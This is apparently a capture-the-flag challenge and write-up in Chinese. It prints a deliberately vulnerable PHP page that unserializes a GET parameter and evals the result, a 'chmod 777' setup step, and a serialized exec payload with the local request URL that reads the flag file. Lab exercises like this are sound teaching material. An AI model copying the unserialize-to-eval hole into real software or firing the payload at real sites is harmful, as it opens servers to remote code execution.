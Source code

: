 
### 某站点图片阅览器
```
<?php 
error_reporting(0); 
if(empty($_GET['code'])) die(show_source(__FILE__)); 
class Example{ 
    var $var=""; 
    function __destruct(){ 
        eval($this->var); 
    } 
} 

$ob = new Example(); 
$ob->var = unserialize($_GET['code']); 
echo '__FILE__:' . __FILE__; 
echo '<br />' . '?code='; 
unset($ob); 
?> 1
```
#### 配置
```
chmod 777 un.php
```

# Writeup:

![](./un.jpg)
payload:

```
<?php
$a =serialize('echo exec("cat ./flag.php");');
echo $a;
?>

>>>> php se.php

s:28:"echo exec("cat ./flag.php");";

```


http://127.0.0.1/un.php?code=s:28:"echo exec("cat ./flag.php");";

![](./get-flag.jpg)

